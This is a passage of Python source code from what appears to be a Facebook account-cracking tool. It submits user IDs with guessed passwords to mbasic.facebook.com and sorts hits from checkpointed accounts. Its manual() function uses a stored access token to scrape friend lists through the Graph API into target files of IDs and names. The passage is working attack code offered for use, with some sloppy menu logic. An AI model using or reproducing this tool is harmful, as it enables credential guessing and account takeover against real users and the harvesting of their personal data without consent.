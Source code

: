                         ssbworld.submit(self.__metode__, uid, pwx, "mbasic.facebook.com")
                    except:
                        pass
            hasil(ok,cp)
        else:
            print('\n Select Valid One')
            self.__pler__()

def create_file():
    os.system('clear')
    print(logo)
    print('  [1] Create file manual')
    print('  [2] Create file auto')
    print('  [B] Back to main menu')
    print(50*'-')
    cf = input('  Choose method: ')
    if cf =='1':
        manual()
    elif cf =='2':
        auto()
    elif cf =='3':
        likes()
    elif cf =='3' or cf =='b' or cf =='B':
        main()
    else:
        print('\n  Choose correct option ...')
        time.sleep(1)
        create_file()

def manual():
    try:
        token = open('/sdcard/tokenofl.txt', 'r').read()
    except FileNotFoundError:
        login()
    try:
        r = requests.get('https://graph.facebook.com/me?access_token='+token).text
        q = json.loads(r)
        uname = q['name']
    except (KeyError):
        login()
    os.system('clear')
    print(logo)
    print('  Name: '+uname)
    print(50*'-')
    limit = int(input('  How many ids do you want to add ? '))
    save_file = input('  Save file as: ')
    t = 0
    for u in range(limit):
        t+=1
        try:
            ids = input('  Put id no%s: '%t)
            r = requests.get('https://graph.facebook.com/'+ids+'/friends?limit=5000&access_token='+token).text
            q = json.loads(r)
            for j in q['data']:
                uids = j['id']
                names = j['name']
                first_name = names.split(' ')[0]
                try:
                    last_name = names.split(' ')[1]
                except:
                    last_name = 'Khan'
                with open('/sdcard/'+save_file, 'a') as rd:
                    rd.write(uids+'|'+first_name+'|'+last_name+'\n')
        except KeyError: